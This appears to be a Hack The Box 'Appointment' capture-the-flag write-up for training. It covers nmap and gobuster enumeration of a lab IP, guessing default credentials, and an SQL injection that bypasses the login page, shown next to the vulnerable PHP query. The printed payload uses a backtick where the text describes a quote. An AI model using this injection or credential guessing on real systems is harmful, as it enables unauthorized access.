 # [Appointment](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.164.45

### Enumeration

Here we are scanning the target machine for open ports and services also we added to scan for the default scripts. In result we found that apache server is running on the target which means that this target is hosting a site on the address.

**Command 1** -

`nmap -sC -sV 10.129.164.45`
**Output** -

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 23:40 IST
Nmap scan report for 10.129.164.45
Host is up (0.60s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.48 seconds
```
Now we accessed the site on the http://10.129.164.45/

![Login page image](https://github.com/goobar07/HTB-30_Day-Challenge/blob/main/Tier_1/Appointment/Photo_1.png)

Now we will use gobuster to find all the possible directories present in the site. The wordlist we used was downloaded through github the repo name is `SecLists`. In conclusion we found 5 directories which are used by the target on the web site.

**Command 2** -

`gobuster dir --url http://10.129.164.45/ --wordlist ~/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`

**Output** -

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.164.45/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/goobar07/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.164.45/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.164.45/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.164.45/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.164.45/vendor/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.164.45/fonts/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

### Foothold

Now we tried these combination on the login page, but they didn't worked.

```
admin:admin
guest:guest
user:user
root:root
administrator:password
```

Now we will use the sql injection to get the access of the website using the login page. Here is an example how a username and password get checked in the `PHP & SQL` which can be exploited by adding a `' #` which will close the string and also make the end of the query comment. In conclusion we got the access to the flag page using these credentials.

`$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";`

```
username: admin`#
password: abc123
```

![Flag page image](https://github.com/goobar07/HTB-30_Day-Challenge/blob/main/Tier_1/Appointment/Photo_2.png)

### This machine has been pawned

~goobar07
